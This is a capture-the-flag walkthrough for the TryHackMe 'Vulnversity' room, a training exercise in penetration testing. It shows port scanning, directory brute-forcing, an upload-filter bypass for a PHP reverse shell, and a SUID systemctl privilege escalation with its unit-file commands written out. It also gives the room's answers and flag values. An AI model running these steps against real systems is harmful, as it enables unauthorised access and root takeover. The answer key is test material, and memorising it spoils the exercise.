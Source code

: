 #  TryHackMe - Vulnversity (Room 009)

<details><summary>Task 2 - Reconnaissance</summary>
<p>

## Task 2.2

### Q: Scan the box, how many ports are open?

A: 6

Walkthrough: Simply scan the machine using the `nmap -A -T4 <IP>` command to reveal open ports

![](/Vulnversity/images/nmap_scan.png)

## Task 2.3

### Q: What version of the Squid Proxy is running on the machine?

A: 3.5.12

Walkthrough: Found in the output of the nmap scan detailed above

## Task 2.4

### Q: How many ports will nmap scan if the flag -p-400 was used?

A: 400

Walkthrough: The `-p-` flag indicates a range of ports to scan. With 400 given at the end, this indicates it will scan port 1-400

## Task 2.5

### Q: Using the nmap flag -n, what will it not resolve?

A: DNS 

Walkthrough: Using the `nmap -h` command, we can see other flags. Scroll down and you will see the `-n` flag

![](/Vulnversity/images/nmap.png)

## Task 2.6

### Q: What is the most likely OS this machine is running

A: Ubuntu

Walkthrough: In SSH, it willt tell us the version of the package installed (Ubuntu). It also indicates Ubuntu through multiple other services such as HTTP as well

![](/Vulnversity/images/ubuntu.png)

## Task 2.7

### Q: What port is the web server running on?

A: 3333

Walkthrough: Scrolling down we can see that port 3333 is running the HTTP service. HTTP is used for websites and web servers

</p>
</details>

<details><summary>Task 3 - Locating Directories using GoBuster</summary>
<p>

## Task 3.1 - no answer needed

Run GoBuster with a wordlist using the `gobuster dir -u http://10.10.76.37:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` command

## Task 3.2

### Q: What is the directory that has an upload form page?

A: /internal/

Walkthrough: Going through the GoBuster results and navigating to each page reveals that the /internal/ directory has an upload form

![](/Vulnversity/images/upload.png)

</p>
</details>

<details><summary>Task 4 - Compromise the Web Server</summary>
<p>
	
## Task 4.1

### Q: Try uploading a few file types to the server, what common extension seems to be blocked?

A: .php

Walkthrough: Since we know this is an Apache server thanks to the Nmap scan, we know that Apache typically works with .php files. There are multiple file extensions for PHP:

* .php
* .phtml
* .php3
* .php4
* .php5
* .phps

We can try uploading simple text documents modified to have these extensions and see what one is possibly blocked

![](/Vulnversity/images/php_tests.png)

Uploading the `.php` extension file presents a message stating that the extension is not allowed

![](/Vulnversity/images/banned.png)

## Task 4.2

To identify which extensions are not blocked, we can fuzz the upload form. To do this, use Burp Suite

## Task 4.3

### Q: What extension is allowed?

A: .phtml

Walkthrough: To begin, make a wordlist with the extensions presented earlier

![](/Vulnversity/images/phpext.png)

Next, upload a file and capture the request via Burp Suite and send it to Intruder. Click on `Payloads` and select the wordlist we created to load into it

Click the `Positions` tab, find the filename and `Add` to the extension

![](/Vulnversity/images/burp.png)

Run the attack and look at the results. The `.phtml` response will have a different length and include a different response than before

![](/Vulnversity/images/success.png)

## Task 4.4

We can use a PHP reverse shell as our payload. A reverse shell works by being called on the remote host and forcing this host to make a connection to us

We listen for incoming connections, upload and have our shell executed which will beacon out back to our listener

A good PHP reverse shell is located [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

To gain remote access to this machine, follow these steps:

1. Edit the PHP reverse shell file and edit the IP to be our VPN IP
2. Rename this file to php-reverse-shell.phtml
3. Listen for incoming connections using netcat via `nc -nvlp 1234`
4. Upload the shell and navigate to http://MACHINE_IP:3333/internal/uploads/php-reverse-shell.phtml and execute the payload
5. Get a connection back via netcat

![](/Vulnversity/images/changeip.png)

![](/Vulnversity/images/shell.png)

## Task 4.5

### Q: What is the name of the user who manages the webserver?

A: bill

Walkthrough: Navigate to the /home directory and have a look at the users. There is only one user

![](/Vulnversity/images/bill.png)

## Task 4.6

### Q: What is the user flag?

A: 8bd7992fbe8a6ad22a63361004cfcedb

Walkthrough: The `user.txt` flag in most CTFs is located on the Desktop of the user. Simply navigate to the Desktop and cat the .txt file. In this case, it is located inside `/home/bill/user.txt`

![](/Vulnversity/images/flag.png)

</p>
</details>

<details><summary>Task 5 - Privilege Escalation</summary>
<p>

## Task 5.1

### Q: On the system, search for all SUID files. What file stands out?

A: /bin/systemctl

Walkthrough. There are two ways to do this. The first way is by manually searching for all files with SUID permissions using the find command `find / -user root -perm -4000 -exec ls -ldb {} \;`

![](/Vulnversity/images/systemctl.png)

Another way is we can run LinPeas by first running a local Python server hosting the .sh script and thenusing `wget` on the victim machine to download it to the `/tmp` directory

![](/Vulnversity/images/linpeas.png)

Running LinPeas highlights the /bin/systemctl command under SUID binaries section indicating it is vulnerable

![](/Vulnversity/images/linpeas_results.png)

Now that we know /bin/systemctl is an issue, we can use [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/) to get more information

There are two ways to exploit this binary - SUID and sudo

![](/Vulnversity/images/suid.png)

This way creates a service that systemctl is going to start for us and that service will be running with elevated privileges

Systemctl is a controlling interface and inspection tool for the widely-adopted init system and service manager systemd. Systemd in turn is an init system and system manager that is widely becoming the new standard for Linux machines

Systemd initializes user space components that run after the Linux kernel has booted, as well as continuously maintaining those components throughout a system's lifecycle. These tasks are known as units, and each unit has a corresponding unit file

We can create our own unit file and let systemd start it. Normally systemctl will look for unit files in the default folder, which is /etc/system/systemd but we do not have permission to write to that folder

We can create a unit file and let systemctl start it via an environment variable

First, we create a variable which holds a unique file

`eop=$(mktemp).service`

Then, we create a unit file and write it into the variable

```bash
$ echo '[Service]
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
> [Install]
> WantedBy=multi-user.target' > $eop
```

Inside the unit file, we entered a command which will let shell execute the command `cat` and redirect the output of cat to a file called `output` in the tmp folder. Finally, we use the /bin/systemctl program to enable the unit file

```bash
/bin/systemctl link $eop
/bin/systemctl enable --now $eop
```

![](/Vulnversity/images/output.png)

Looking at the output file, we see the root.txt flag

![](/Vulnversity/images/rootflag.png)

Another way to accomplish this is by changing the command inside the unit file to add SUID to /bin/bash which will run it as root, make /bin/bash a SUID binary and allow us to effectively become root by running the `bash -p` command

![](/Vulnversity/images/bashp.png)